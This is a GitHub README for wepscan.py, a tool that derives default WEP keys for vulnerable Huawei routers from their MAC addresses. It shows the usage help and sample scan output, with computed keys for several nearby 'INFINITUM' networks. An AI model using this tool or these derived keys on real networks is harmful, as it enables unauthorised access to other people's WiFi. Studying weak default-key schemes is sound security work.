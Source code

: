 # wepscan.py

[![Join the chat at https://gitter.im/ksaver/wepscan](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/ksaver/wepscan?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
Scan WiFi networks and show up default WEP keys for vulnerable Huawei access points.

##Usage:

###View arguments:
```bash
$ ./wepscan.py -h
usage: wepscan.py [-h] [-m MACADDRESS] [-i INTERFACE]

optional arguments:
  -h, --help            show this help message and exit
  -m MACADDRESS, --mac-address MACADDRESS
                        Mac address to wep key (formerly mac2wep).
  -i INTERFACE, --interface INTERFACE
                        WiFi interface to perform scanning.
```

###Get the default WEP key for a single MAC address:
```bash
$ ./wepscan.py -m 5C:4C:A9:30:FF:4C 
[+] SUFFIX: c5eb, DEFAULT WEP KEY: 6434386463
```

###Scan WiFi networks with normal user priviledges:
```bash
$ ./wepscan.py -i wlan0
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
 |    | NETWORK            | ADDRESS            | SIGNAL | SUFFIX | DEFAULT KEY  |
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
 |  1 | SKYNET             | 00:11:22:33:AA:FF  | 24/70  |        |              |
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
```

###Scan WiFi networks with sudo or root priviledges:
```bash
$ sudo ./wepscan.py -i wlan0
[...]
 + --- + ------------------ + ------------------ + -------- + ------ + ------------ +
 |     | NETWORK            | ADDRESS            | QUALITY  | SUFFIX | DEFAULT KEY  |
 + --- + ------------------ + ------------------ + -------- + ------ + ------------ +
 |   1 | INFINITUMc5eb      | 5C:4C:A9:30:FF:4C  | 25/70    | c5eb   | 6434386463   |
 |   2 | INFINITUM2beb      | 64:16:F0:D0:3C:C0  | 17/70    | 2beb   | 3663383065   |
 |   3 | INFINITUM95da      | 00:25:68:23:28:0C  | 21/70    | 95da   | 6431346462   |
 |   4 | AXTEL XTREMO-33DD  | 00:02:71:35:33:DE  | 25/70    |        |              |
 |   5 | AXTEL-XTREMO-9572  | 14:D6:4D:E4:95:72  | 19/70    |        |              |
 |   6 | ARRIS-2942         | 20:73:55:49:29:40  | 21/70    |        |              |
 |   7 | Huawei-HG8245H-FC2 | AC:85:3D:FA:16:0C  | 21/70    |        |              |
 |   8 | Huawei-HG8245H-042 | 04:F9:38:36:47:14  | 19/70    |        |              |
 |   9 | INFINITUM81672B    | A4:B1:E9:81:67:2B  | 19/70    |        |              |
 |  10 | INFINITUME75B0E    | A4:B1:E9:E7:5B:0E  | 19/70    |        |              |
 |  11 | ARRIS-BC72         | CC:A4:62:A3:BC:70  | 25/70    |        |              |
[...]
```
![wepscan]( wepscan/wepscan-01.png "wepscan screenshot")
